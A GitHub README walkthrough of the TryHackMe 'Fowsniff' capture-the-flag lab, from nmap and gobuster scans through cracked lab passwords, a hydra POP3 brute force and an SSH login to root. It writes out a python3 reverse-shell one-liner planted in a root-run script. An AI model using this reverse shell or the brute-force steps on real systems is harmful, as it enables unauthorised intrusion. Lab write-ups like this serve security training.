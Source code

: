 ## Fowsniff_CTF

'export IP=10.10.195.86'

## Hack into the FowSniff organization.
First stage is to do an initial nmap Scan of the IP address given using the nmpa command `nmap -sC -sV -oN nmap/initial $IP` [Initial NMAP Scan Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/nmap/initial)
Once the results from this scan are given which shows that port 80 is open we can do some web enumeration will running a full port scan of the box `nmap -p- -sC -sV -oN nmap/Full $IP`[Full NMAP Scan Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/nmap/FULL)

While that is running we can use gobuster to do a full website `gobuster dir -u http://$IP:80 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan` [GoBuster Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/gobuster/sitescan)
We can also check out the website and see if that holds any clues manually.

![Fowsniff webpage](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Fowsniff_webpage.PNG)

Looking at the page manually did not give us any information so we can also use Google to search the web which allows us to find a twitter account connected to the corporation with the twitter handle `@Fowsniff` When reading the tweets it shows that there are two pastbins linked which are supposedly the passwords for the corporation
The first paste bin
`https://pastebin.com/NrAqVeeX`
The second paste bin
`https://pastebin.com/378rLnGi`

The first one is more important as it contains usernames and hashes and using crackstation to crack the md5 hashes you get:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd:
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

With the details we have gathered we can then try and bruteforce the pop3 as the pastebin said that the pop3 server was open.
For this we create a user and password files so that they can be used with hydra

`hydra pop3://$IP -L users.txt -P passwords.txt`

![hydra result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Hydra_Result.PNG)

this shows that we can login with seina and password scoobydoo2

using this information we can then use netcat to connect to the pop3 server to see if we can get any extra information
`nc 10.10.195.86 110`
Once logged in we find there are two emails

![email result](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%20Login.PNG)

retrieving email 1

![mail message1](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email%201.PNG)

Within this email it shows that there is a temporary SSH Password S1ck3nBluff+secureshell

![mail message2](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Email2.PNG)

Looking at the second email it seems nothing important although there is a user-name we have not seen before and that is baksteen.

So using this information we can try and ssh into the box 
`ssh baksteen@$IP` with the password S1ck3nBluff+secureshell
This information allows us to login

![SSH Login](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/SSH_Login.PNG)

we can then use the command `id` to find what groups baksteen belongs to and we find out that he belongs to two different groups users and baksteen so using this information we want to enumarate the box.
`find / -group users -type f 2>/dev/null`
looking at the results there is one file that looks interesting /opt/cube/cube.sh

![Enumeration Results](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/enumeration.PNG)

When using vi on the cube.sh file we find it is the information for the ssh login page as such we could use this to get a reverse shell on the box as this is run by root.

Before we get a revershell we need to know what the box has on it already to run the command the first thing to try is python and python3
running the command `python` tells us that we have python3 installed so we can use python3 to get us a reverse shell using the command from this [pen-test monkey page](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

![Reverse Shell](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShell.PNG)

we can then test that this revers shell works by listening on the given port and you should see the following:

![Reverse Shell Test](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ReverseShellTest.PNG)

Once we confirmed the sell works we want to exit the ssh shell and restart the netcat listener before trying to login in again and once you are then logged in again you should get the following:

![Reverse Shell Root SSH](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/ssh_reverseshell.PNG)

![Reverse Shell Root](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/root_reverseshell.PNG)

Now that we have the reverse shell we can go to roots home folder and find flag.txt.

![Root Flag](https://github.com/tigercub-co/TryHackMe/blob/master/Fowsniff_CTF/Images/Flag.txt.PNG)

